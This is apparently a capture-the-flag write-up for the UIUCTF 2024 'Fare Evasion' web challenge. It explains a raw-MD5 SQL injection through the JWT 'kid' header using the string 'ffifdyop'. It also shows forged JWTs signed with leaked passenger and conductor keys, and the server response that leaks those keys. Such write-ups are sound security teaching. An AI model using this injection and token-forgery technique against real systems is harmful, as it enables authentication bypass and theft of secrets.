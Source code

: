# Writeup for Fare Evasion challenge hosted in UIUCTF 2024

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/9bf0e398-d557-406f-892c-88d1b057a0f6)

on opening the challenge, we're greeted with this page and when we click the only button we can ("I'm a passenger"), this appears

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/b70ce90e-b6d9-4ee2-b43b-9d0ba1531fbe)

now, looking at the cookies being sent to get this message, we'll see this - 

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/b77f226f-e40b-4360-bf8f-ec54c8fb5eb7)
there is a jwt cookie being sent. On decoding it, we see there are few parameters
the headers look like - 
```
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```
and the data looks like - 
```
{
  "type": "passenger"
}
```
In the *page source* we see
```
<script>
    async function pay() {
      // i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
      const r = await fetch("/pay", { method: "POST" });
      const j = await r.json();
      document.getElementById("alert").classList.add("opacity-100");
      // todo: convert md5 to hex string instead of latin1??
      document.getElementById("alert").innerText = j["message"];
      setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
    }
  </script>
```
They have mentioned how they are retrieving the passenger key from the database in comments. It probably means they want us to know that an sqli is possible here. We see that they are using raw md5 while storing and retrieving data. The problem with this is that, any kind of characters can be in the raw md5, so all we need to do is find a string such that when it is hashed in md5, it will look something like - ` ' or '1` so that we can do sqli attack and get all records in the database.

I found the string "ffifdyop" which matches our need, from the below url - 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md#authentication-bypass-raw-md5-sha1

So we need to put that in the `kid` parameter in the head of the jwt token and sign the jwt with the secret they have given us - `a_boring_passenger_signing_key_?` to get the jwt `eyJhbGciOiJIUzI1NiIsImtpZCI6ImZmaWZkeW9wIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.zgePz4fg9QKihcFTuT8SEYy0vIwNnIuNSmb7vZuNVrE` 
 and we get response looking like - 
```
"Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?"
```
now all I do is sign the previous jwt with the new secret that they have given us - `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`
and get the jwt
`eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0._svKe3YzdQdpJbS7DGr9yOIXzpxza9sKNuxQBEeCHcU`

# obtaining the flag - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/8b1fc819-f5bb-4dcc-8959-359de801ce1f)

# conclusion
I used raw md5 for sqli for first time in this challenge. And this is the first time I see that the secret is used for identifying the content of the jwt.
